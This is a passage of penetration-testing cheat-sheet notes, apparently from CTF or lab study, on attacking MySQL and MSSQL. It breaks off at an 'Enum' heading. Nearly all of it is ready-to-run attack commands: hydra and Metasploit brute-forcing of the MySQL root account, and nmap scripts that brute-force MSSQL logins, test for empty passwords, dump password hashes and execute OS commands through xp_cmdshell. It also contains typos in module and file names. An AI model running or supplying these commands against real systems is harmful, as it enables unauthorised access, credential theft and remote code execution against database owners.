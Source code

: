 > use auxiliary/scanner/mysql/mysql_login

> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passowrds.txt

> set stop_on_success true

**hydra:**

- *hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passowrds.txt* target *mysql*

## MSSQL

Common port is 1433

### nmap

Enumerate basic info:

- *nmap* target *-p 1433 --script ms-sql-info*

- *nmap* target *-p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433*

Brute force:

- *nmap* target *-p 1433 --script ms-sql-brute --script-args userdb=userlist, passdb=passlist*

Empty password:

- *nmap* target *-p 1433 --script ms-sql-empty-password*

Query:

- *nmap* target *-p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=password,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt* (it's worth outputing this to a file, cause query in terminal is messy...)

Hashes:

- *nmap* target *-p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=password*

Scripting:

- *nmap* target *-p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=password,ms-sql-xp-cmdshell.cmd=ipconfig*

- *nmap* target *-p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=password,ms-sql-xp-cmdshell.cmd="type c:flag.txt"* (windows **type** = linux **cat**)

### msfconsole

Brute:

> use auxiliray/scanner/mssql/mssql_login

> set user_file (userlist/wordlist)

> set pass_file (passlist/common_pass)

Enum:
